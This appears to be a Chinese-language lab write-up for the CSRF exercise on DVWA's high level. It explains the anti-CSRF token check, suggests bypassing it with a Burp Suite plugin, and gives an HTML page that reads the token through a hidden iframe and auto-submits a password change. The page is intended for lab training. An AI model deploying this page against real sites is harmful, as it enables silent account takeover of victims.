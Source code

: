 ```php+HTML
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

### 代码分析

high级别的源码中加入了Anti-csrf token机制，由checkToken函数来实现，用户每次访问更改密码页面时，服务器会返回一个随机的token，之后每次向服务器发起请求，服务器会优先验证token，如果token正确，那么才会处理请求。所以我们在发起请求之前需要获取服务器返回的user_token，利用user_token绕过验证。

绕过方案：使用burpsuit的CSRF Token Tracker插件可以直接绕过user_token验证。

### 漏洞利用

安装插件

![image-20220505224851040](./Lab3_CSRF.assets/image-20220505224851040.png)

进入插件添加Host和Name

![image-20220505225033802](./Lab3_CSRF.assets/image-20220505225033802.png)

同时，通过抓包得到token值

![image-20220505225416763](./Lab3_CSRF.assets/image-20220505225416763.png)

构造一个假的页面，放在服务器

```html
<script type="text/javascript">
    function attack()
  {
   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
  document.getElementById("transfer").submit(); 
  }
</script>
 
<iframe src="http://192.168.109.136/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>
 
<body onload="attack()">
  <form method="GET" id="transfer" action="http://localhost/dvwa/vulnerabilities/csrf">
   <input type="hidden" name="password_new" value="password">
    <input type="hidden" name="password_conf" value="password">
   <input type="hidden" name="user_token" value="">
  <input type="hidden" name="Change" value="Change">
   </form>
</body>
```
